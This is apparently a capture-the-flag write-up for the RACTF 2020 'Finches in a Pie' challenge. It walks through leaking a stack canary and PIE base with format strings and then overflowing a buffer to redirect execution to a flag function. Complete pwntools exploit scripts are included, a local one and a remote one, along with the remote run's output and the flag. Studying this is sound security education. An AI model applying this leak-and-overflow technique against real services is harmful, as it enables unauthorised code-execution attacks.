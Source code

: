 # Finches in a Pie

This challenge is very similiar to Finches in a Stack, so this one is more like a continuation of that writeup, so I'd advise reading that one first before reading this one. Here's the link:
[Finches in a Stack](https://github.com/crypt0n1te/write-ups/blob/master/ractf-2020/rev-pwn/finches_in_a_stack.md)

## Protections
First, let's check the protections that this binary has using checksec:
```
sasha@kali:~/RACTF$ pwn checksec fiap
[*] '/home/sasha/RACTF/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So here's what we have to deal with:

* Canary: This is a protection that places a random value before a return pointer, so that if you overwrite it with an invalid value, the program crashes

* NX: This prevents us from executing our own shellcode by marking critical areas as non-executable

And a new one:

* PIE: This essentially randomizes the addresses of the functions and gadgets, making returning to functions harder

Since this binary is practically the same as `fias`, I won't go over the reversing again

## Overview

Our exploit is going to have four parts again:

* Padding, to reach the canary
* Canary, to overwrite canary, so that the program doesn't crash
* More padding, to reach the return pointer
* Return Pointer, where we point back into 'flag'

We already have the other 4 sorted, however our new challenge is to find the return pointer, due to PIE randomizing it

## Leaking PIE

Fortunately, we can also leak a PIE address with format strings, this time it's `%12$p`. However, there are some calculations that need to be made to get the base address
Lets load up gdb and have a look at the functions:
```
0x00001209  flag
```
So now we have the offset of `flag`. Let's run it with a breakpoint at say_hi (as that's where input is taken):
```
gdb-peda$ b say_hi
Breakpoint 1 at 0x1287
gdb-peda$ r
```
Let's skip to the printf which we use to leak, entering `%12$p` in the `gets`:
```
gdb-peda$ 
0x56559000!
```
Now we need to find out what to do with this address to get the base address. Let's take a function, say the `flag` function, see where it is now after being randomized:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x56556209 <flag>
```
And using our offset from before
> 0x00001209
We will take the offset away from the flag address, to find the base:
```
gdb-peda$ p/x 0x56556209 - 0x1209
$2 = 0x56555000
```
So that's our base address, now we do:
```
gdb-peda$ p/x 0x56559000 - 0x56555000
$3 = 0x4000
```
To find the offset of the leaked PIE address. Now, using this information, we can always find the return pointer we need

## Local exploit

Now we can create our local exploit using python3 + pwntools. We send the two format strings in the same line, separated by a `-`, so we can leak the canary and PIE at one time:
```python
from pwn import *

e = ELF("fiap")
io = e.process()

for i in range(0,10):
	io.recvline()

io.sendline("-%11$p-%12$p-")		# Leak both canary and PIE
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000	# Gets base
log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209	# Base + Flag offset

payload = b"a" * 25		# Pads upto canary
payload += p32(canary)		# Overwrites canary
payload += b'bbbbccccdddd' 	# Pads upto return address
payload += p32(flag)		# Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

## Transferring to remote

Transferring to remote is very simple once again:
```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

for i in range(0,10):
	io.recvline()

io.sendline("-%11$p-%12$p-")		# %11$lx leaks canary, %12$p leaks pie
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000	# Leaked pie take 0x4000 results in binary base

log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209

payload = b"a" * 25		# Pads upto canary
payload += p32(canary)		# Overwrites canary
payload += b'bbbbccccdddd' 	# Pads upto return address
payload += p32(flag)		# Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```
Let's now run it:
```
sasha@kali:~/RACTF$ python3 fiapremote.py 95.216.233.106:49276
[+] Opening connection to 95.216.233.106 on port 49276: Done
[*] Canary: 0x3132f200
[*] PIE: 0x565d6000
ractf{B4k1ng_4_p1E!}

[*] Closed connection to 95.216.233.106 port 49276
sasha@kali:~/RACTF$ 
```
Challenge done!

**ractf{B4k1ng_4_p1E!}**